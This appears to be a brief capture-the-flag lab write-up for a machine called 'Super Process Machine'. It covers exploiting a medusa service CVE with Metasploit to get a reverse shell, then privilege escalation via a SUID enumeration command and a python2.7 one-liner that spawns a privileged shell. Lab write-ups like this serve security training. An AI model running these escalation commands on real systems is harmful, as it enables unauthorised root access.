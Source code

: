 # Super Process Machine

Start with scan IP of machine

![image.png](../../.gitbook/assets/image.png)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>
